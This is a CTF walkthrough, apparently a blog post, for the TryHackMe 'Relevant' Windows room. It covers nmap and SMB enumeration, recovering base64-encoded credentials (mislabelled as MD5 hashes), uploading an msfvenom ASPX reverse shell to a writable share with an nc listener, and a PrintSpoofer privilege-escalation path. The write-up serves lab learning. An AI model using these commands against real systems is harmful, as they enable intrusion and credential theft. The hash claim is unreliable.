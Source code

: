 ```yaml
---
title: TryHackMe - Relevant Room Walkthrough
author: Omer K.
date: '2023-06-17 00:34:00 +0800'
comments: true
categories: [thm, ctf]
tags: [windows, active_directory]
---
```

Hello everyone, today we are solving Relevant room from TryHackMe.

## Scope

- The client has asked that you secure two flags (no location provided) as proof of exploitation:
	- User.txt
	- Root.txt
- Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first  
- Locate and note all vulnerabilities found
- Submit the flags discovered to the dashboard
- Only the IP address assigned to your machine is in scope
- Find and report ALL vulnerabilities (yes, there is more than one path to root)

## Basic OS Detection

Before diving into any further analysis, it's essential to initiate a preliminary assessment by running a simple ping command on the target host. This initial step can provide valuable information about the host's operating system and network characteristics. Pay close attention to the Time to Live (TTL) value, as it often reveals details about the host's underlying OS.

```bash
ping -c 1 10.10.97.109
PING 10.10.97.109 (10.10.97.109) 56(84) bytes of data.
64 bytes from 10.10.97.109: icmp_seq=1 ttl=127 time=285 ms
```

Based on the basic OS detection performed, it's likely that the target machine is running a Windows operating system. The TTL value by default is 128 in Windows machines.

## Enumeration using nmap

Running nmap with -sC for default scripts, -sV enumerate version of every running service, -T4 is running script faster, -vvv to show me all the open ports as it is found and -oA for outputing all formats in case I want to pass it to another tool.

```bash
nmap -sCV -O -T4 -vvv -oA nmap/relevent 10.10.97.109
```
### Port Scan Results

The scan identified several open ports on the host:

- Port 80/tcp: Open, running Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) with various HTTP methods supported. The web server is likely running on Windows Server and presents itself as "IIS Windows Server."

- Port 135/tcp: Open, running Microsoft Windows RPC.

- Port 139/tcp: Open, running Microsoft Windows netbios-ssn.

- Port 445/tcp: Open, running Windows Server 2016 Standard Evaluation 14393 with the service "microsoft-ds."

- Port 3389/tcp: Open, possibly running ms-wbt-server. An SSL certificate is present with the commonName "Relevant."

### Operating System Detection

The scan provides an educated guess about the host's operating system, suggesting it is likely running Microsoft Windows 2016, 2012, or 2008. However, it notes that the OS fingerprint is not ideal due to a missing closed TCP port.

## SMB Protocol on 445

### Try Anonymous Login

Try null authentication, but getting nothing. Based on nmap output the `gust` account can access the shares.

```bash
crackmapexec smb 10.10.97.109 -u "" -p "" --shares
```

When trying `gust` has juicy folder called nt4wrksv with read and write permissions.

```bash
crackmapexec smb 10.10.97.109 -u "gust" -p "" --shares
```

![CME](/assets/img/uploads/20230614185247.png)

Found `passowrds.txt` then create smb directory and move it there.

``` bash
crackmapexec smb 10.10.176.144 -u "gust" -p "" -M spider_plus
smbclient //10.10.176.144/nt4wrksv -U ""
```

The users passwords was MD5 hashed.

## Crack The Hash
 
`Qm9iIC0gIVBAJCRXMHJEITEyMw==`
`QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk`

The Plain Text
Bob:!P@$$W0rD!123
Bill:Juw4nnaM4n420696969!$$$                                          

## Getting a shell

1. Try bill account on `evil-winrm` and can not access. Also try on RDP and failed. So it must be fake!
2. found that port 49663 has also a web server and run `gobsuter` to enumerate directories and found one with same `smb` share name! 

- http://10.10.247.115:49663/nt4wrksv/shell.aspx


``` bash
msfvenom -p windows/x64/shell_reverse_tcp LPORT=9001 LHOST=10.9.78.51  -f aspx -o shell.aspx 
smbclient //10.10.247.115/nt4wrksv -U 'bob'
smb: \> put shell.aspx
sudo rlwrap nc -lnvp 9001
```

## Local Enumeration 

``` powershell
whoami /all
systeminfo
```

![Privilages](/assets/img/uploads/20230614214734.png)

## PrivEsc

While investigation, I've uncovered the presence of the powerful `SeImpersonatePrivilege`. This privilege opens up an opportunity to leverage a tool called [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0), which takes advantage of Impersonation Privileges. Specifically, it exploits the `SeImpersonatePrivilege` on Windows 10 and Server 2016/2019, allowing for a privilege escalation from LOCAL/NETWORK SERVICE to SYSTEM-level access. This discovery sheds light on a significant security vulnerability within these Windows systems.

![Privilages_is_500](/assets/img/uploads/20230614224001.png)

In the realm of cybersecurity, vigilance is paramount, and it's reassuring to know that your Antivirus (AV) has successfully identified and thwarted a potentially harmful "Potatoes attack." However, as we navigate the intricate landscape of security testing and ethical hacking, occasional roadblocks can arise. Currently, in the world of Kali Linux, there's a particular challenge hindering the execution of the EternalBlue MS17-010 exploit. This exploit, notorious for its role in significant cyber incidents, relies on a specific set of conditions to work effectively. Identifying and overcoming these obstacles is a crucial aspect of the cybersecurity journey, ensuring that we are always prepared to address both detected threats and technical hurdles in our pursuit of a safer digital environment.

